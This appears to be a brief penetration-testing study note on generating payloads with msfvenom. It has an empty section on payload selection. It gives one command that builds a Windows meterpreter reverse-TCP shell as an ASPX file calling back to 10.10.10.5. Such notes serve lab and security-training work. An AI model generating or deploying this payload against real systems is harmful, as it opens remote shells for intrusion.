 # Payload Creation

## Using msfvenom

* We can use msfvenom to either create payload in text, used in Buffer overflow exploits, or, create a paylaod file, that could be directly run on vulnerable machine.

### Payload Selection

### Payload creation

* Generally,
  * msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.10.5 LPORT=123 -f aspx &gt; rev\_shell.aspx



